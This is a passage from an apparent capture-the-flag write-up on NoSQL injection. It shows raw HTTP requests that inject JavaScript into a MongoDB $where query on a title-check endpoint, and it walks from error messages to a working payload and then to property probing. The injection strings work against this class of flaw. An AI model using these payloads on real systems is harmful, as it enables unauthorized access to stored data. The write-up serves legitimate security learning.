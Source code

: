 ```html
<h1>Bad Request</h1>
<p>Failed to call method</p>
```

Oh well, this one was a bit harder to solve. After playing around a bit I found out that I can return something:

```html
GET /api/check_title?title=Lasagne'%3b+return+true%3b}// HTTP/1.1
Host: one.jh2i.com:50009
Connection: close


HTTP/1.0 400 BAD REQUEST
Content-Type: text/html; charset=utf-8
Content-Length: 166
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 17 Jun 2020 22:25:42 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>400 Bad Request</title>
<h1>Bad Request</h1>
<p>SyntaxError: missing ) in parenthetical @:1:58<br></p>
```

Still errors, but at least a different one that is easy to fix and finally the query worked again:

```html
GET /api/check_title?title=Lasagne'%3b+return+true%3b})// HTTP/1.1
Host: one.jh2i.com:50009
Connection: close


HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 17 Jun 2020 22:25:56 GMT

7
```

Next, I tried to find out if I can access different properties of the current object, which `$where` performs the check on. If a property is present, calling `.x` on that property (which results in `undefined` I guess) to arbitrary values simply returns `0`:

```html
GET /api/check_title?title=x'+||+this.title.x=='whatever HTTP/1.1
Host: one.jh2i.com:50009
Connection: close


HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 17 Jun 2020 22:30:21 GMT

0
```
